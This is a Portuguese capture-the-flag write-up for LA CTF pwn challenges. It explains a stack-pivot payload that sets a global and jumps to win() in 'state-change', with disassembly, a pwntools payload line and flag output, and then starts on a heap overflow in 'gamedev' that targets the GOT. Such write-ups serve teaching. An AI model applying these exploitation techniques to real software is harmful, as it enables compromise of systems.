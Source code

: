 ```
  4012d0:       48 8b 15 59 2d 00 00    mov    rdx,QWORD PTR [rip+0x2d59]        # 404030 <stdin@GLIBC_2.2.5>
  4012d7:       48 8d 45 e0             lea    rax,[rbp-0x20]
  4012db:       be 30 00 00 00          mov    esi,0x30
  4012e0:       48 89 c7                mov    rdi,rax
  4012e3:       e8 d8 fd ff ff          call   4010c0 <fgets@plt>
  4012e8:       90                      nop
  4012e9:       c9                      leave
  4012ea:       c3                      ret
```

Esse endereço está dentro da função '*vuln()*', esse gadget é relevante pois eventualmente o fluxo avança até '*fgets*' (o que permite que possamos mandar a segunda parte do exploit). Outro ponto relevante no gadget é a instrução '*lea*' (*load effective address*) que irá carregar o valor que RBP aponta - 0x20 carregando o valor de '*state*' em RAX.  O valor de RAX é movido para RDI que apontará para o endereço no qual '*fgets*' salvará o input recebido. 

Após essa breve explicação do gadget utilizado, iremos para a segunda parte do payload. 
`r.send(p32(0xF1EEEE2D)+(32-4)*b'A'+p64(exe.symbols['buf']+0x500)+p64(exe.symbols['win'])[:-1])i`
Nesse segundo send, já iniciamos colocando o valor desejado (que será armazenado no endereço de 'state') 0xF1EEEE2D. Em seguida completamos o restante do buffer original (preenchendo o resto do buffer com caracteres) e colocamos o endereço do buffer (somado com 0x500) que sobrescreverá o endereço de RBP (que é o endereço que  o programa saltará quando chegar na instrução leave (0x4012e9), evitando que o programa salte para algum lugar que possa crashar e evitar a necessidade de apontar para o prologo de uma função), por fim o endereço de win() que é para onde de fato o programa saltará, dessa vez com a variável global '*state*' definida com o desejado.

```
[*] '/home/matias/ctf/lactf/state-change/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to chall.lac.tf on port 31593: Done
[*] Switching to interactive mode
Hey there, I'm deaddead. Who are you?
Here's the flag:
lactf{1s_tHi5_y0Ur_1St_3vER_p1VooT}
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to chall.lac.tf port 31593
[*] Got EOF while sending in interactive
```

## pwn/gamedev
Esse desafio consiste em Heap Overflow. Vamos lá:
- Heap Overflow no '*edit_level*'.
- O programa fornece um '*infoleak*' (vaza o endereço da '*main()*' no começo da execução).\
- A diferença do endereço efetivo da '*main()*' (randomizada) com o endereço da main no binário nos fornece o endereço base do binário.
- A partir desse endereço podemos calcular  endereço de '*puts*' na '*got*' ('*Global offset table*').
- Em seguida, três levels são criados: B, C e D, com seus respectivos índices: 0, 1 e 2.
- A função explore é executada em B.
- Level B é editado, enchendo o tamanho do buffer (com 0x20 caracteres) + Metadatados da Heap (Chunk Header) (0x71 ou (0x70| 1) que implica em um chunk de tamanho 0x70 e que o Chunk anterior está em uso)+ Endereço de 'got_puts - 64'. Esses 64 bytes vem  de 8 * 8 (tamanho de um ponteiro em x86_64).
- Esse overflow de B sobrescreve dados de C, de maneira que o ponteiro `next\[0\]`  de level C é sobrescrito.